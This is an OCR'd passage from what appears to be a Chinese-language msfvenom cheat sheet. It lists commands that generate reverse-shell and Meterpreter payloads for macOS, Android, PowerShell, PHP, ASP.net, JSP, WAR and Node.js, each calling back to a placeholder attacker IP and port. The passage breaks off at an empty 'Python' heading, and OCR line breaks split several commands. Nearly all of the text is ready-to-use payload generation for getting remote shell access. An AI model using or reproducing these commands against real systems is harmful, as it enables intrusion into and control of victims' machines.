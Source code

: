 msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP

LPORT=攻击机端口 -f macho -o payload.macho

Android:



msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻

击机IP LPORT=攻击机端口 -f apk -o payload.apk

PowerShell:



msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=

攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

PHP:



msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=

<Your Port to Connect On> -f raw > shell.php

	

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>

shell.php



ASP.net:



msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=

攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx

JSP:



msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻

击机端口 -f raw -o payload.jsp

War:





msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -

o payload.war

Node.js:



msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o

payload.js

Python:
